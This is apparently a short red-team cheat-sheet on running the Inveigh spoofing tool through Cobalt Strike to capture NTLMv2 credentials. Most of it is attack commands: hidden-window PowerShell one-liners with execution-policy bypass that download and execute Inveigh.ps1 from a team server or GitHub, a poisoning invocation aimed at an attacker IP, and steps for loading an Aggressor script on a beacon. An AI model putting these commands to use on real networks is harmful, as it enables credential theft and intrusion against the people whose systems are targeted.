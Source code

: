 https://github.com/Kevin-Robertson/Inveigh

Run from hosting infrastructure
```CS
run powershell -ep bypass -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://<TeamServer IP>/Inveigh.ps1')"
```
Run from github hosting
```CS
run powershell -ep bypass -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.psd1')""
```
Basic Syntax
```CS
powershell-import /root/Desktop/Inveigh/Inveigh.ps1;Invoke-Inveigh -ConsoleOutput Y -NBNS Y -mDNS Y -HTTPS Y -Proxy Y -NTLMv2 -IP <attackerIP>
```

## Method 2
```bash
cd /root/Desktop/
git clone https://github.com/Kevin-Robertson/Inveigh
cd Inveigh
wget https://raw.githubusercontent.com/Und3rf10w/Aggressor-scripts/master/inveigh/inveigh.cna
```
In the inveigh.cna script change all `inveigh/Scripts/Inveigh.ps1` to `/root/Desktop/Inveigh/Inveigh.ps1`
Add the inveigh.cna to CobaltStrike with the Script Manager.
On beacon, `powershell-import /root/Desktop/Inveigh/Inveigh.ps1`
Depending on your privs: `runPriviledgedInveigh` or `runUnPriviledgedInveigh`